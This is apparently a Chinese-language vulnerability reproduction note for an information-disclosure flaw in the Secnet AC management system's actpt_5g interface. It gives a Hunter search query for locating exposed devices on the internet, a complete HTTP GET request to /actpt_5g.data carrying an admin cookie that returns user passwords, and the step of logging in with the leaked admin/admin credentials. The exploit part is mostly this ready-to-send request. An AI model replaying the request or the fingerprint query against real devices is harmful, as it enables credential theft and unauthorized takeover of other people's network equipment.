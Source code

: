 # Secnet安网 智能AC管理系统 actpt_5g 信息泄露

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">Secnet安网 智能AC管理系统 actpt_5g 接口存在信息泄露漏洞，可获取用户密码信息。</font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ <font style="color:rgb(51, 51, 51);">Secnet安网 智能AC管理系统 </font>

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ hunter`web.title="安网-智能路由系统"`
+ 特征

![1702369576891-35aff956-fbea-4f67-b05b-466200f5fcb3.png](./img/QmDYfQBL_bI9V4Jq/1702369576891-35aff956-fbea-4f67-b05b-466200f5fcb3-113410.png)

# 四、漏洞复现
```plain
GET /actpt_5g.data HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ac_userid=admin,ac_passwd=70076EA6CDE654631A639018D9E23BC5
Upgrade-Insecure-Requests: 1
```

![1702369649483-f28655d2-e6c6-42f2-adf9-8c9b831c2cfe.png](./img/QmDYfQBL_bI9V4Jq/1702369649483-f28655d2-e6c6-42f2-adf9-8c9b831c2cfe-436141.png)使用泄露的账号密码`admin/admin`登录系统

![1702369681603-6e0bff32-6015-4fee-834e-c17072637574.png](./img/QmDYfQBL_bI9V4Jq/1702369681603-6e0bff32-6015-4fee-834e-c17072637574-749568.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gaq5fqcqle5ez69e>